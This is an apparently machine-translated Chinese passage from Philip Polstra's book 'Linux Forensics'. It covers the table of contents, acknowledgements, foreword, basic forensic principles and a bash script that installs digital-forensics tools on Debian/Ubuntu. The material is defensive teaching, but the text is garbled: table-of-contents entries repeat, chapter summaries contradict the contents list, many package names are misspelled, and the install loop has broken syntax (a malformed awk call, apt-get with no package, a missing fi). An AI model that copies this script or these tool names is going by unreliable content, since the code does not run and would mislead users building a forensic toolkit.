# Linux 取证：Python 和 Shell 脚本

献给我我结婚二十五年的妻子

## 作者简介

## 前言

## 脚本、视频、教学辅助工具、社区论坛等

# 与用户交流

# 文档记录

如果你正在使用虚拟机，旧版本可能更好

# 挂载已良好的二进制文件

# 最小化对目标系统的扰动

- 使用 USB 驱动器存储数据
- 使用 Netcat
- 从目标系统发送数据
- 发送文件

# 使用脚本自动化流程

- 编写服务器脚本
- 编写客户端脚本
- 短路在很多地方都很有用

# 介绍我们的第一个目标系统

### 收集易失数据

- 日期和时间信息
- 操作系统版本
- 网络接口
- 网络连接
- 开放端口
- 与各种端口关联的程序
- 开放的文件
- 运行中的进程
- 路由表
- 已挂载的文件系统
- 已加载的内核模块
- 过去和现在的用户
- 使用脚本整合这些信息

### 总结

## 第 3 章 现场分析

本章包含信息：

### 已经发生了事件：现在怎么办？

### 获取文件元数据

### 使用电子表格构建时间线

### 检查用户命令历史

### 获取日志文件

### 收集文件哈希值

### 导出 RAM

- RAM 捕获方法
- 构建 LiME
- 使用 LiME 导出 RAM

### 总结

## 第 4 章 创建镜像

本章包含信息：

### 关闭系统

- 正常关机
- 拔掉插头

### 镜像格式

- 原始格式 (Raw format)
- 嵌入元数据的专有格式
- 元数据存储在独立文件中的专有格式
- 哈希值存储在独立文件中的原始格式

### 使用 DD

### 使用 DCFLDD

### 硬件写保护

### 软件写保护

- udev 规则
- Linux 发行版

### 从虚拟机创建镜像

### 从磁盘创建镜像

### 总结

## 第 5 章 挂载镜像

本章包含信息：

- 挂载分区
- MBR 分区
- GPT 分区
- 从镜像创建分区
- 运行时的 Linux
- 挂载分区
- 挂载分区
- 挂载分区
- 挂载文件系统
- 总结

## 第 6 章 扩展文件系统

本章包含信息：

- 扩展文件系统基础
- 超块 (Superblocks)
- 扩展属性
- 目录项
- 扩展文件系统
- 总结

## 第 7 章 日志分析

本章包含信息：

- 检查系统日志
- 检查登录尝试
- 登录信息
- 进程映射
- 总结

## 第 8 章 内存分析

本章包含信息：

- 内存分析基础
- 内存分析
- 内存网络信息
- 内存导出
- 总结

## 第 9 章 处理更高级攻击

本章包含信息：

- 初始响应
- 内存分析
- 发现发现
- 发现发现
- 总结

## 第 10 章 恶意软件

本章包含信息：

- 它是恶意软件吗？
- file 命令
- 它是已知恶意软件吗？
- strings
- 使用 nm 查看符号信息
- 使用 ldd 查看共享库
- 使用 readelf 查看大局
- 使用 objdump 反汇编代码
- 动态分析
- 跟踪系统调用
- 跟踪库调用
- 使用调试器进行反向工程
- 混淆
- 总结

## 第 11 章 前路

本章包含信息：

- 现在，怎么办？
- 社区
- 了解更多
- 聚集
- 认证

### 总结

# 致谢

首先，我要感谢我的妻子和孩子们允许我花时间写这本书。没有他们的支持，这本书是不可能的。

非常感谢 Vivek Ramachandran 和整个 Pentester Academy 团队的荣誉。首先，我有幸成为 Pentester Academy 的第一个外部培训师；其次，我被授权编写 Pentester Academy 的第一本书。

深心感谢 Susan Baker 博士愿意审读整本书并担任编辑。

最后，我想感谢多年来在信息安全领域给予我鼓励的朋友。

# 作者简介

Philip Polstra 博士（朋友们称 Dr Phil）是一位国际著名的硬件黑客。他的工作曾在全球多个会议上展示，包括 DEFCON、BlackHat、44CON、GrrCON、MakerFaire、ForenSecure 以及其他顶级会议。Polstra 博士是著名的 USB 取证专家，并在该主题上发表了多篇文章。他开发了包括 Linux 取证、USB 取证和反向工程在内的多个视频课程。Polstra 博士在美国中西部一所私立大学担任教授和驻黑客期间，开发了数字取证和伦理黑客学位课程。目前他在宾州布鲁姆斯大学教授计算机科学和数字取证。除了教学外，他还提供咨询方面的培训和渗透测试。在不工作时，他喜欢飞行、制造飞机和摆弄电子产品。他的最新动态可以在博客查看：`http://polstra.org`。你也可以在 Twitter 上关注他：`@ppolstra`。

# 前言

大家好！

Phil 和我大约五年前通过 SecurityTube.net 在网上相识，从那时起一直是很好的朋友。多年来，我们讨论了许多可以合作的有趣项目，而正如预期的，信息安全教育一直位居我们清单的首位。根据我们的讨论，Phil 为 Pentester Academy 创建了极其出色的“USB 取证”和“Linux 取证”视频系列！这两个系列视频都非常精彩，并受到了学生们的好评。

我一直想将我们的在线视频系列制作成书籍，而 Phil 的“Linux 取证”视频课程似乎是开启这段冒险的最佳起点！于是我们做到了！我想借此机会，祝 Phil 和我在 Pentester Academy 的出版团队在新征程上进展顺利！

最后但最重要的一点，我要感谢 SecurityTube.net、Pentester Academy 社区以及我们的学生多年来的爱与支持！没有你们，我们无法走到今天！你们让我们所有的梦想成真。我们不胜感激。

Vivek Ramachandran

SecurityTube.net 和 Pentester Academy 创始人

# 脚本、视频、教学辅助、社区论坛等

## 书籍网站

我们为《Linux 取证》一书创建了镜像网站：

- `http://www.pentesteracademy.com/books`
- `http://www.linuxforensicsbook.com`

## 脚本和支持文件

所有 Python 和 shell 脚本均可在网站上下载。我们已尽力确保代码可以运行且无错误，但如果你发现任何 Bug，请予以报告，我们将在网站上公开感谢你。

## 视频

我们是 Pentester Academy，我们热爱视频！虽然书籍本身完全自给自足，但我们认为由作者亲自为少数几个实验室制作视频会很有趣！你可以在书籍网站上免费访问这些内容。

## 社区论坛

我们渴望与本书读者建立联系——获取他们的反馈，并从他们那里直接了解希望下一版本中看到什么？此外，如果有一个可以让读者相互互动、甚至与作者互动的社区论坛，不是很好吗！我们的书籍社区论坛正是如此！你可以通过上述网站访问论坛。

## 教学辅助

你是教授或商业培训师吗？你想在课堂上使用这本书吗？我们为你后顾之忧！通过我们的网站，你可以注册成为培训师，并获取演示文稿、练习文件和其他教学辅助材料。

## Linux 取证书籍周边

访问我们网站的周边商品板块，获取你的“Linux 取证”T 恤、马克杯、钥匙扣和其他酷炫周边！

# 引言

本章包含内容：

- 本书的主题
- 目标读者群
- 本书的组织结构

## 本书的主题

本书主要介绍了如何对运行 Linux 操作系统系统的目标系统进行取证调查。在许多情况下，Linux 取证是作为事件响应的一部分来完成。这也将是本书的重点。尽管如此，执行 Linux 事件响应时需要了解的大部分知识也适用于任何 Linux 取证调查。

在过程中，我们将学习如何使用 Linux 及其提供的许多工具。除了涵盖取证的基础知识外，我们还将探索如何使用 Python、shell 脚本和标准 Linux 系统工具来更快速、更容易地进行取证调查。书中涵盖的大部分也可以也可以任何希望在 Linux 工作站上对 Windows 目标进行取证调查的人利用。

## 目标读者群

本书主要面向取证从业人员和其他信息安全专业人士。它详细描述了如何调查运行 Linux 的计算机。主要处理 Windows 目标但想学习更多 Linux 知识的取证调查员会发现这本书很有用。对于对 Linux 系统破解机制及后续调查感兴趣的 Linux 用户和系统管理员来说，这本书也将证明是有用的。书中包含的信息应让人能够调查大多数针对 Linux 系统的攻击。

我们假设本书读者唯一的知识储备是普通 Linux 用户的水平。你不需要成为 Linux 系统管理员、黑客或高级用户就能从书中学习。具备 Linux 系统管理、Python、shell 脚本和汇编语言的知识会有帮助，但绝对不是必须的。对于初接触这些主题的人来说，我们将提供充足的信息。

## 本书的组织结构


本书从取证的简要介绍开始。从那里，我们将深入探讨“是否发生了事件？”这个问题。为了回答这个问题，将介绍各种现场分析工具和技术。然后我们讨论取证文件系统镜像和内存镜像的创建与分析。针对 Linux 系统的高级攻击和恶意软件完成了我们的讨论。

# 第一章：起步

第一章是取证领域的介绍。它涵盖了取证的各种类型以及在 Linux 系统上进行取证的动机。还讨论了调查的阶段和高层流程。本章提供了构建 Linux 取证工具包的逐步操作说明。

# 第二章：发生事件了吗？

第二章介绍了从客户怀疑发生了某些事，到你可以合理地确定发生或未发生事件的过程。它涵盖了开案、与用户交流、创建适当文档、挂载已知的二进制文件、最小化对目标系统的干扰、使用脚本自动化该过程以及收集易失数据。本章还提供了对 shell 的良好介绍。

## 第三章：现场分析

第三章描述了在关闭系统之前需要做什么。它涵盖了捕获元数据、构建时间线、收集用户命令历史、执行日志文件分析、哈希计算、内存转储以及通过脚本自动化。本章同样提供了对 shell 的良好介绍。

## 第四章：创建镜像

第四章从讨论关闭系统开始。从那里，讨论转向镜像格式、`dd`、分配、硬件和软件写保护以及现场发行版。介绍了不同情况下创建镜像的方法。

## 第五章：挂载镜像

第五章开始讨论各种分区类型：基于主引导记录 (MBR) 的分区、扩展分区和 GUID 分区表。介绍了挂载所有类型区的命令和技术。

## 第六章：分析挂载镜像

第六章描述了如何分析挂载的文件系统镜像。它涵盖了元数据、命令历史、系统日志以及分析期间常见的其他信息。使用表格来增强调查。还介绍了一些 shell 脚本技术。

## 第七章：扩展文件系统

第七章是书中最大的章节。详细讨论了所有 Linux 扩展文件系统（ext2、ext3 和 ext4）。本章提供了大量的 Python 和 shell 脚本。提供了检测者篡改元数据的高技巧。

## 第八章：内存分析

第八章介绍了内存分析这一新领域。详细讨论了 `Volatility` 内存分析框架。涵盖的主题包括创建 `Volatility` 配置文件、获取进程信息、进程映射和转储、获取 bash 历史、使用 `Volatility` 插件、获取网络信息以及内存文件系统信息。

## 第九章：应对高级攻击

第九章详细带你走一个更复杂的攻击。书中为止描述的技术应用于一个新的场景。还讨论了向客户报告发现结果。

## 第十章：恶意软件

第十章提供了 Linux 恶意软件分析的介绍。它涵盖了调查未知文件的标准工具，如 `file` 工具、哈希数据库、`strings` 工具、`mm`、`ldd`、`readelf`、`objdump`、`trace`、`ltrace` 和 `gdb`。讨论了混淆技术。介绍了了安全问题。还提供了汇编语言的介绍。

## 第十一章：未来的道路

在最后一章中，我们提供了一些进一步学习的建议。还为成功的取证职业提供了通用技巧。

# 结语

开发这本书及配套脚本花费了无数小时。然而，这是一份心血之作。我希望你们享受阅读和应用书中内容的乐趣，就像我享受编写它们一样。

有关本书的更新以及我的最新动态，请访问我的网站 http://philpolstra.com。你也可以通过我的 Twitter 账号 @ppolstra 与我联系。相关的下载和其他形式的社区支持可在 Pentester Academy http://pentesteracademy.com 获取。

# 第一章

## 第一步

本章包含内容：

- 什么是取证？
- 取证的类型
- 为什么选择 Linux 取证？
- 通用原则
- 调查阶段
- 高层级流程
- 构建工具包

如果你正在读一本关于 Linux 取证的书，你自然会问自己一个问题：取证到底什么是取证？如果你询问不同的取证人员，可能会得到对这个问题的略有不同的答案。根据最新版本的《梅丽姆-韦斯特词典》：“取证（forensic，n）属于司法机关、用于司法机关，或适用于公共讨论和辩论。”根据这个对“取证”词的定义，我对取证科学的定义如下：

> 取证科学或取证是对证据进行科学收集，其质量必须足够适用于在法庭上使用。

需要记住的关键点是，我们应该收集质量足够高的证据，以便在法庭上使用，即使我们并不打算将发现的结果提交法庭。放宽标准总是比以后再收紧要容易得多。我们还应该像科学家一样，以有规律且技术可靠的方式进行一切工作。

### 取证的类型

当大多数人听到“取证”时，他们会想到在像 CSI 之类的节目中看到的场景。这就是我所说的“物理取证”。物理取证的一些常见领域包括指纹、DNA、弹道学和血迹溅。物理取证的基本原理之一是洛卡德交换原理（或交换原理）。洛卡德本质上认为，如果物体发生相互作用，它们就会转移（或交换）物质。例如，如果你开车撞到了某个物体，通常会有油漆的交换。其他例子还有，当你触摸表面时可能会留下指纹，当你离开某个区域时可能会用鞋带走泥土。

本书涵盖了我所说的“数字取证”。有些人喜欢“计算机取证”这个术语，但我更倾向于“数字取证”，因为它的范围广泛得多。我们生活在一个日益依赖手机、平板电脑、笔记本电脑和台式电脑等电子设备的世界。鉴于许多人在手机和其他小型设备上存储了大量信息，如果有人涉嫌某种犯罪，检查这些设备通常很有用。本书的范围限于运行某版本 Linux（可能是嵌入式的）的计算机。

在数字取证更广泛的领域内有许多专业方向。这包括网络取证、数据存储取证、小型设备取证、计算机取证等许多其他领域。在这些专业方向内部还有进一步的细分。取证人员具有高度专业化并不罕见。我希望当你读完这本书时，你已经精通 Linux 取证，能够对除最先进攻击之外的所有 Linux 系统攻击进行调查。

### 为什么选择 Linux 取证？

可能如果你正在阅读这些，是因为看到了学习 Linux 取证的价值。然而，你的老板可能并不这么认为。以下是一些理由，说明为什么你学习 Linux 取证可能会获益。

虽然 Linux 不是桌面平台上最常见的操作系统，但它出现在许多地方。即使在 Windows 往往主导桌面电脑的美国，许多组织也在机房里运行 Linux。Linux 是许多互联网服务提供商（ISP）和 Google 等大公司（他们有自己的 Linux 版本）的选择。Linux 在开发组织中也非常流行。

Linux 是任何从事信息安全或取证工作人员的标准选择。作为“为程序员为程序员编写”的操作系统，它在黑客中非常受欢迎。如果你发现自己正在检查某个黑客的计算机，它很可能运行着 Linux。

我们周围的许多设备都运行着某个版本的 Linux。无论是你是在当地电子商店购买的无线接入点，还是让你家里保持舒适的智能温度控制器，它们的底层可能都是 Linux。Linux 还与 Android 和 OS X 共享一些遗产和功能。

Linux 也是对 Windows、OS X、Android 或或其他系统进行取证的绝佳平台。该操作系统拥有丰富的开源取证工具，可以对运行地球上每种系统的设备进行调试。如果你预算有限，Linux 绝对是你的之选。

### 通用原则

在实践取证时，应该遵循一些通用指导原则。这些包括维护证据的完整性、维护监管链、遵循标准做法以及充分记录所有内容。下文将进行详细讨论。

#### 维护完整性

证据在收集和检查过程中不被更改是极其重要的。在数字取证中，我们很幸运，因为我们通常可以创建无限数量完全相同的证据副本。从事物理取证的人就没有那么幸运了。事实上，在许多情况下，物理证据数量有限时必须做出选择，因为许多测试会消耗证据。

确保数字证据完整性的主要方法是哈希（Hashing）。哈希在计算机科学中被广泛用作提高性能。通常来说，哈希函数接受一个可变大小的输入并输出一个已知大小的数字。哈希允许更快的搜索，因为计算机可以在一个周期内比较两个数字，而迭代长字符串中的每个字符则可能需要成百或数千个周期。

在你的程序中使用哈希函数可能会增加一点复杂性：多个值可能会产生相同的输出。当这种情况发生时，我们称为发生了“碰撞”（collision）。碰撞在我们的程序中是一个复杂性问题，但当我们使用哈希进行加密或完整性检查时，发生多次碰撞是不可接受的。为了尽可能减少碰撞次数，我们使用加密哈希函数。

目前有几种种加密哈希函数可用。一些人仍然使用消息摘要算法 5（`MD5`）来验证图像的完整性。`MD5` 算法不再被认为是安全的，倾向于使用安全哈希算法（SHA）系列函数。原始版本被称为 `SHA1`（或简称 SHA）。`SHA2` 是目前最常用的变体，我们可能会遇到对 `SHA2` (224位)、`SHA256` (256位)、`SHA384` (384位) 和 `SHA512` (512位) 的引用。还有一个 `SHA3` 算法，但其使用并不广泛。我通常使用 `SHA256`，它在性能和低碰撞率之间取得了很好的平衡。

我们将在后续章节中详细讨论哈希的细节。目前高层级的流程如下：首先，计算原始数据的哈希值。第二，创建一个作为主副本的镜像。第三，计算副本的哈希值并验证其是否与原始哈希值匹配。第四，为主副本制作工作副本。主副本和原始数据不应再次使用。

#### 监管链（Chain of Custody）

物理证据通常存储在证据袋中。证据袋要么包含监管链表格，要么附有此类表格。每当证据从袋中取出时，都要更新谁接触了证据以及做了什么。表格上的条目收集构成了监管链。本质上，监管链是证据未被更改且得到了妥善维护的保证。


在数字取证的情况下，监管链仍然重要。虽然我们可以创建无限的数字副本，但我们必须维护原始数据的完整性。这也是为什么应该创建一个主副本，除了创建副本之外不用于任何其他目的，因为这避免了在创建主副本这一唯一事件之外再次接触原始数据。

## 证据保护与收集

医学专业人员有一句格言：“首先，不要伤害”。对于数字取证从业者来说，我们的座右铭“不要更改数据”。这听起来非常简单。但实际上要复杂得多，因为数据是易失的。在任何系统中发现的数据都存在一种易失性层次。

最易失的数据可以在 CPU 寄存器中找到。这些寄存器是高速暂存内存位置。捕捉其内容几乎是不可能的。幸运的是，这些内容并没有什么取证价值。CPU 缓存在易失性上处于下一个水平。和寄存器一样，它们很难捕捉，而且幸运的是，它们的取证价值也很小。

比 CPU 中的存储稍低易失性的是网卡等各种设备中的缓冲区。一些低速设备使用系统主内存（RAM）作为缓冲区。与存储在 CPU 中的数据一样，这很难捕捉。它是理论上存储在或为目标计算机设计的任何内容。

系统内存也是易失的。一旦丢失电源，RAM 就会清空。与之前讨论的项目相比，系统内存相对容易捕捉。在大多数情况下，在不轻微改变内存内容的情况下是不可能收集系统内存内容的。例外是基于硬件的内存收集。内存获取将在后面的章节中进行详细讨论。

由于技术的限制，直到最近，数字取证领域一直侧重于硬盘和其他介质镜像的“死后分析”。即使处理非易失性介质，易失性仍然是一个问题。计算机安全和取证中最老的问题之一是，是否对你怀疑已入侵的系统拔掉电源。

拔掉电源会导致数据丢失，因为任何为写入介质而缓存的数据都会消失。在现代日志文件系统（这是目前 Linux 系统上最常见的情况）中，这个问题并不严重，因为日志可以防止任何损坏。如果以正常方式关闭系统，某些恶意软件将尝试掩盖其踪迹，甚至破坏系统上的其他数据。

执行正常关机的优点是可以刷新缓冲区和缓存。正如之前提到的，有序关机并不是没有劣的。在取证的许多事务中，关于哪种方法更好的正确答案是“取决于情况”。有获取硬盘和其他介质镜像的方法，这些方法不需要关闭系统，这进一步增加了这一决策的复杂性。这些方法的细节将在未来的章节中介绍。

## 证据搜索

得益于存储容量的爆炸，随着时间的推移，在典型计算机存储的海量数据中定位证据变得越来越困难。数据存在三个层次：数据、信息和证据，如图 1.1 所示。


图 1.1

数据层次结构。

如图 1.1 所示，数据的最低层只是原始数据。原始数据由位组成，通常组织成字节，存储在易失或非易失存储器中。在此类中，我们发现了原始磁盘扇区等内容。使用此级别的数据可能是一个挑战，在大多数现代系统中，有大量的数据需要筛选。

在原始数据之上是信息。信息是由带有某种意义的原始数据组成的。例如，一张图像对人类来说的意义比用于存储它的 JPEG 文件所包含的位更多。在我们的层次结构中，文本文件也存在于这一层。将许多 ASCII 或 Unicode 值聚集在一起，赋予了它们超越其字节集合的意义。

在最高层或层次结构中是证据。虽然可能有成千上万个文件（信息集合），但它们大部分可能与调查没有相关性。这引导我们思考，信息与调查相关意味着什么。

正如之前提到的，取证是一门科学。鉴于我们正在尝试做科学，我们应该建立假设并寻找支持或反驳假设的信息。在调查过程中保持客观是非常重要的，因为同一件证据可能会根据人们的先入为主的想法而产生不同的解释。

调查人员不要成为**确认偏误**的受害者是非常极其重要的。简单来说，确认偏误是指只看支持你所相信的事实的信息，而忽视任何可能反驳你所相信的事物。鉴于典型调查中必须检查的大量数据，关于你认为将发现什么，提出一两个假设（计算机所有者做了 X，这台计算机被成功利用了等）有助于引导你完成整个搜索过程。然而，不要掉入假设你的假设或多个假设是正确的陷阱。

### 行为中的确认偏误

#### 每个孩子都是完美的，问问父母就知道了

描述确认偏误最好的故事之一如下：尼尼（Johnny）非常喜欢魔术。一天，他的父母带他去看一位著名的魔术师伟大的菲尔（Phil the Great）。一天结束时，父母告诉菲尔他们的儿子有多喜欢魔术。菲尔随后提议向他们展示一个技巧。尼尼急切地接受了。

魔术师拿出一个硬币，在两只手、拳头之间来回移动，然后伸出手。他让尼尼识别哪只手里有硬币，尼尼做到了。现在猜对一次并不是什么了不起，但这个游戏重复了很多次，尼尼每次都正确猜出了有硬币的那只手。在这个过程中，魔术师评论道：“你一定有极佳的视力才能看出哪只手里有硬币”，“你一定是观察我面部表情的专家，你这样就知道硬币在哪里。”

最后，尼尼连续正确识别了五十次硬币！他的父母惊呆了。他们给祖父母打电话，并在 Facebook、Twitter 和其他社交媒体网站上向所有朋友讲述了这件事。当他们终于感谢魔术师转身离开时，她大喊：“再见”，并用两手挥了挥手。每一只手都有硬币。

那是父母的确认偏误让他们相信了他们相信的事实，尼尼是一个天才，并且忘记了魔术师在欺骗他们。在调查期间保持客观。不要让你看到相反的证据。

## 事件重构

试图重构发生了什么是调查中最有趣的部分。存储介质的爆炸可能会让搜索阶段变得更长，但那只会让重构阶段变得更加有趣。不太可能在一个地方找到重构所需的所有证据。通常会从多个地方获取证据，并将它们组合成一个更大的画面。例如，内存镜像中进程列表中的可疑进程可能会引导你查看文件系统中的文件，进而指向内存镜像中的打开文件列表，将这些位组合可能让你确定 rootkit 是何时下载的，以及随后由谁安装的。

## 构建工具箱

为了有效地进行 Linux 取证，你可能想要获取一些工具。在软件工具方面，你很幸运，因为所有的 Linux 取证工具都是免费的（大多数还是开源的）。除了之前提到的笔记本电脑，一些硬件和软件应该在每个法证取调查员的工具箱中。

### 硬件

你可能需要一个或多个外部硬盘来制作镜像（包括 RAM 和硬盘）。外部硬盘是首选，因为当其他调查人员只需插入硬盘时，与他们共享数据要方便得多。USB 3.0 设备是最佳选择，因为它们的速度明显快于 USB 2.0 设备。

在对任何介质制作镜像时，写阻塞器（write blocker）也会很有帮助。目前有多种硬件写阻塞器可用。其中大多数仅限于一种特定的接口。如果你的预算只允许购买一个硬件写阻塞器，我推荐 SATA 阻塞器，因为它是目前最常用的接口。软件写阻塞器也是一种选择。本书后面将介绍一种简单的软件写阻塞器。

### 软件

软件需求分为几类：取证工具、系统二进制文件和 Linux 发行版。理想情况下，这些工具存储在 USB 3.0 闪存盘中，如果你预计会遇到无法从 USB 启动的系统，可能还需要几张 DVD。鉴于如今 USB 闪盘价格低廉，即使是预算有限的调查人员也能为大多数情况做好准备。

有很多方法可以安装取证工具集。最简单的方法是安装面向数字取证的 Linux 发行版，例如来自 SANS 的 SIFT (`http://digital-forensics.sans.org/community/downloads`)。从个人而言，我更倾向于运行我喜爱的 Linux 并直接安装工具，而不是受困于他人的主题和缓慢的系统性能。以下脚本将在基于 Debian 或 Ubuntu 的系统上安装 SIFT 中找到的所有工具（与 SANS 安装程序仅适用于特定版本的 Ubuntu 不同）。


```bash
#!/bin/bash
### 简单的脚本，将 DFIR 工具加载到 Ubuntu 和 Debian
### 由 Phil Polstra 博士 @ppolstra 创建
### 创建仓库
echo "deb http://ppa.launchpad.net/sift/stable/ubuntu trusty main" \ \
> /etc/apt/sources.list.d/sift-ubuntu-stable-utopic.list
echo "deb http://ppa.launchpad.net/tualatrix/ppa/ubuntu trusty main" \ \
> /etc/apt/sources.list.d/tualatrix-ubuntu-ppa-utopic.list
### 软件包列表
pkglist+="aeskeyfind
affflib-tools
afterterglow
airrack-ng
arp-scan
autopsy
binlist
- bitpim
- bitpim-lib
- bless
- blt
- build-essential
- bulk-extractor
- cabextract
- clamav
- cryptsetup
- dc3dd
- dconf-tools
- dumbpig
- e2fslibs-dev
- ent
- epic5
- etherape
- exif
- extendelete
- f-spot
- fdupes
- flare
- flasm
- flex
- foremost
- g++
- gcc
- gdb
- ghex
- gthumb
- graphviz
- hexedit
- htop
- hydra
- hydra-gtk
- ipython
- kdiff
- kpartx
- libafflib0
- libafflib-dev
- libbde
libbde-tools
libesdb
libesdb-tools
libevt
libevt-tools
libevtx
libevtx-tools
libewf
libewf-dev
libewf-python
libewf-tools
libfuse-dev
libfvde
libfvde-tools
libightgrep
libmsiecf
libnetl
libolecf
libparse-win32registry-perl
libregf
libregf-dev
libregf-python
libregf-tools
libssl-dev
libtext-csv-perl
libvshadow
libvshadow-dev
libvshadow-python
libvshadow-tools
libxml2-dev
maltegoce
md5deep
nbd-client
netcat
netpbm
fdump
grep
ntopng
okular
openjdk-6-jdk
p7zip-full
phonon
pv
pyew
python
python-dev
python-pip
python-flowgrep
python-nids
python-ntdsxtract
python-pefile
python-plaso
python-qt4
python-tk
python-volatility
pytsk3
rsakeyfind
safecpyt
sleuthkit
ssdeep
ssldump
stunnel4
tcl
tcpflow
tcpstat
tctprace
tofrodos
torsocks
transmission
unrar
upx-ucl
vbindiff
virtuoso-minimal
winbind
wine
ire
wireshark
xmount
zenity
regripper
cmospwd
ophcrack
ophcrack-cli
bkhive
samdump2
cryptcat
outguss
bcrypt
ccrypt
readpst
ettercap-graphical
driftnet
tcpreplay
tcpxtract
tctptrack
p0f
netwox
lft
seted
socat
knocker
nikto
nnbscan
radare-yara
python-yara
gzrt
testdisk
scalpel
qemu
qemu-utils
gddrescue
dcffldd
vmfs-tools
mantaray
python-fuse
samba
open-iscsi
curl
git
system-config-samba
libpff
libpff-dev
libpff-tools
libpff-python
xfsprogs
gawk
xfat-fuse
xfat-utils
pxdf
feh
pyew
radare
radare2
pev
tcpick
pdfftk
sslniff
dnsiff
rar
xdot
ubuntu-tweak
vim
```

### 实际安装

### 首先更新

`apt-get update`

```bash
for pkg in $(pkglist)
do
  if $(pkg -list | awk '(print $2)' | grep "^${pkg}" 2>/dev/null); 
  then
    echo "已安装 ${pkg}"
  else
    # 尝试安装
    echo -n "正在安装 ${pkg}..."
    if apt-get -y install 2>/dev/null); then
      echo "成功"
    else
      echo "--失败--"
    fi
done
```

简而言之，上面的脚本如所示工作。首先，我们使用特殊的构造（`bash`）运行 `#{command to run}`。



图 1.3

创建一个指向物理 USB 驱动器的虚拟磁盘文件。



图 1.4

创建一个从 USB 驱动器运行实时版 Linux 发行版的虚拟机。

```
root@laptop:/root# vboxboxmanage internalcommands createavmdk --filename /root/VirtualBox/vhd_usb.vmdk --raw /dev/sdb

root@laptop:/root# virtualbox: vhd_usb.vmdk created successfully.

[1] 2183

root@laptop:/root# 
```



**图 1.5**
为实时 Linux 虚拟机设置内存。务必选择最大内存量以获得运行实时发行版的更好性能，因为所有内容都从 RAM 中运行。

```
root@laptop:/root# vboxboxmanage internalcommands createavmdk --filename /root/VirtualBox/vhd_usb.vmdk --raw /dev/sdb

root@laptop:/root# access VDK file /root/VirtualBox/vhd_usb.vmdk created successfully.

root@laptop:/root# virtualbox & 

[1] 2183

root@laptop:/root# 
```


**图 1.6**
为实时 Linux 虚拟机选择物理 USB 驱动器。

